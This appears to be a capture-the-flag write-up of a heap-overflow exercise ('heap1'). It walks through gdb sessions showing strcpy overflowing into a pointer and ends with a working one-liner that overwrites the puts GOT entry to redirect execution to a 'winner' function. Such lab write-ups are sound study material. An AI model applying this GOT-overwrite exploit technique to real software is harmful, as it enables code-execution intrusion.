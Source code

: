 

```
    8048565:   e8 06 fe ff ff          call   8048370 <strcpy@plt>
    804856a:   83 c4 10                add    esp,0x10
    804856d:   8b 43 04                mov    eax,DWORD PTR [ebx+0x4]
    8048570:   83 c0 08                add    eax,0x8
    8048573:   8b 10                   mov    edx,DWORD PTR [eax]
    8048575:   8b 45 f0                mov    eax,DWORD PTR [ebp-0x10]
    8048578:   8b 40 04                mov    eax,DWORD PTR [eax+0x4]
    804857b:   83 ec 08                sub    esp,0x8
    804857e:   52                      push   edx
    804857f:   50                      push   eax
    8048580:   e8 eb fd ff ff          call   8048370 <strcpy@plt>
```

in gdb:
```
    gdb-peda$ b *0x8048565
    Breakpoint 1 at 0x8048565
    gdb-peda$ b *0x8048580
    Breakpoint 2 at 0x8048580
    gdb-peda$ r aaaaa bbbbb
```

now let's take a look see



```
       0x8048560 <main+126>:	sub    esp,0x8
       0x8048563 <main+129>:	push   edx
       0x8048564 <main+130>:	push   eax
    => 0x8048565 <main+131>:	call   0x8048370 <strcpy@plt>
       0x804856a <main+136>:	add    esp,0x10
       0x804856d <main+139>:	mov    eax,DWORD PTR [ebx+0x4]
       0x8048570 <main+142>:	add    eax,0x8
       0x8048573 <main+145>:	mov    edx,DWORD PTR [eax]
    Guessed arguments:
    arg[0]: 0x804a018 --> 0x0
    arg[1]: 0xffffdcee ("aaaa")
```
so now we can continue
```
    gdb-peda$ c
```
and have another look see
```
       0x804857b <main+153>:	sub    esp,0x8
       0x804857e <main+156>:	push   edx
       0x804857f <main+157>:	push   eax
    => 0x8048580 <main+158>:	call   0x8048370 <strcpy@plt>
       0x8048585 <main+163>:	add    esp,0x10
       0x8048588 <main+166>:	sub    esp,0xc
       0x804858b <main+169>:	push   0x804864b
       0x8048590 <main+174>:	call   0x8048390 <puts@plt>
    Guessed arguments:
    arg[0]: 0x804a038 --> 0x0
    arg[1]: 0xffffdcf3 ("bbbb")
```

now let's see if we can break it!

```
gdb-peda$ r aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa bbbbb
```


```
   0x8048560 <main+126>:	sub    esp,0x8
   0x8048563 <main+129>:	push   edx
   0x8048564 <main+130>:	push   eax
=> 0x8048565 <main+131>:	call   0x8048370 <strcpy@plt>
   0x804856a <main+136>:	add    esp,0x10
   0x804856d <main+139>:	mov    eax,DWORD PTR [ebx+0x4]
   0x8048570 <main+142>:	add    eax,0x8
   0x8048573 <main+145>:	mov    edx,DWORD PTR [eax]
Guessed arguments:
arg[0]: 0x804a018 --> 0x0
arg[1]: 0xffffdcb6 ('a' <repeats 57 times>)
```
nothing interesting yet...

and so we continue

```
    gdb-peda$ c
```
and take a look see
```
   0x804857b <main+153>:	sub    esp,0x8
   0x804857e <main+156>:	push   edx
   0x804857f <main+157>:	push   eax
=> 0x8048580 <main+158>:	call   0x8048370 <strcpy@plt>
   0x8048585 <main+163>:	add    esp,0x10
   0x8048588 <main+166>:	sub    esp,0xc
   0x804858b <main+169>:	push   0x804864b
   0x8048590 <main+174>:	call   0x8048390 <puts@plt>
Guessed arguments:
arg[0]: 0x61616161 ('aaaa')
arg[1]: 0xffffdcf0 ("bbbbbbbbb")
```

ureka!!



Let's take another look at the assembly

```
8048580:   e8 eb fd ff ff          call   8048370 <strcpy@plt>
 8048585:   83 c4 10                add    esp,0x10
 8048588:   83 ec 0c                sub    esp,0xc
 804858b:   68 4b 86 04 08          push   0x804864b
 8048590:   e8 fb fd ff ff          call   8048390 <puts@plt>
```

Even though `printf` is called in the C code, `puts` is being called in the assembly. So lets take a closer look at the .plt definition of `puts`.


```
 08048390 <puts@plt>:
8048390:   ff 25 a0 98 04 08       jmp    DWORD PTR ds:0x80498a0
8048396:   68 20 00 00 00          push   0x20
804839b:   e9 a0 ff ff ff          jmp    8048340 <_init+0x2c>
```

so `0x80498a0` is the .got address of puts. So all we need to do is overwrite that address with the address of `winner`

```
080484bb <winner>:
80484bb:   55                      push   ebp
80484bc:   89 e5                   mov    ebp,esp
....
```


```
[kablaa@superhacker9000 heap1]$ ./heap1 $(python2.7 -c 'print "a"*20 + "\xa0\x98\x04\x08" + " " + "\xbb\x84\x04\x08"')
and we have a winner @ 1453579246
[kablaa@superhacker9000 heap1]$

```
